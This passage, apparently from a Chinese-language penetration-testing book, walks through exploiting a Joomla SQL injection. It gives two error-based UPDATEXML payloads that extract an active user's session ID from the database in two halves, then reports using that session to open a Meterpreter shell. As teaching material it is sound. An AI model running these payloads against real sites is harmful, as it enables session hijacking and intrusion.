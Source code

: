 ![](assets/41f1f4b3-c48a-4d73-969c-3e77d866b616.png)

正如我们在下面的屏幕截图中所看到的，会话是从数据库中检索到的，但是在我们的例子中，我们遇到了一个问题；似乎存在字符限制：

![](assets/520c75b5-e6ea-4042-8d12-3642c2ebed67.png)

查看数据库中的值，我们可以看到并没有返回所有字符，如图所示：

![](assets/8bc9e70e-01c8-4ab4-b180-4595f2bce4a9.png)

屏幕上没有显示最后三个十六进制值为`ABC`的字符。为了解决这个问题，我们可以使用一种变通方法，不使用单个查询从数据库检索会话，而是使用`MID()`函数将会话分为两部分。

需要使用的第一个 SQL 会话负载`1`如下：

```
(UPDATEXML(2170,CONCAT(0x2e,0x414243,(SELECT MID(session_id,1,15) FROM ntnsi_session where userid!=0 order by time desc LIMIT 1),0x414243),4879))
```

具体情况如下：

![](assets/c6cfd060-c8b2-466f-9284-9ebc8ca73aa8.png)

下面的屏幕截图给出了执行前面的 SQL 有效负载`1`的结果：

![](assets/14d81c3c-c996-49d4-ae29-f0d8d387f41f.png)

现在，我们需要使用的第二个 SQL 会话负载如下：

```
(UPDATEXML(2170,CONCAT(0x2e,0x414243,(SELECT MID(session_id,16,42) FROM ntnsi_session where userid!=0 order by time desc LIMIT 1),0x414243),4879))
```

具体情况如下：

![](assets/35074079-65cf-465d-b0fb-39a9517c5b64.png)

下面的屏幕截图给出了执行前面的 SQL 有效负载`2`的结果：

![](assets/2c331c46-13d5-4910-99a2-242eb36e4c71.png)

现在，我们只需要将通过执行前面步骤中的有效负载`1`和`2`检索到的两个输出连接成一个。让我们将代码添加到模块中：

![](assets/9826aad9-f0ef-4aac-aea7-5c62a9216c64.png)

现在代码已经修改，让我们保存文件并执行模块，看看它是否工作：

![](assets/3c526dd4-ffc5-4a95-adfa-02a201b87b07.png)

正如我们从前面的屏幕截图中看到的，我们能够成功地检索会话，并且使用存储在数据库中的会话，我们打开了一个 MeterMeter 会话！

# Joomla shell 上传

为了了解 shell 在前面提到的漏洞中的上载位置，我们将从管理员面板手动上载一个基本命令执行 shell。
